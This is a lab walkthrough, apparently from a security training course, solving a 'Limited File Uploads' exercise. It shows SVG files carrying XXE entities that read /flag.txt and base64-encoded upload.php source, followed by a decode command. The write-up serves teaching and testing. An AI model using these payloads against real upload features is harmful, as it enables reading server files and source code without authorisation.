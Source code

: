 # Limited File Uploads

#### The above exercise contains an upload functionality that should be secure against arbitrary file uploads. Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

The application in this section allows to upload a file, and the goal of this exercise is to try to exploit any file upload vulnerability.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To look for the flag we must adapt the script provided along the section:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```

Just create a file (`nano xxe.svg`), copy and paste the code above and then hit the **Upload** button.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After the image got successfully uploaded, look for the svg file with the **inpect element** too&#x6C;**.**

And the flag should be easily visible!

#### Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)

For the second part, in the same application we have another task. This time we have to read the source code of 'upload.php' and identify the uploads directory.

This time we'll the following script:

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```
{% endcode %}

Like the last time, upload the file and look for the .svg file.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

You should see a base64 string within. Copy it and use in the command bellow do decode it:

```bash
echo "base64_string" | base64 --decode
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And there it is! We manage to decode it and get the uploads directory!

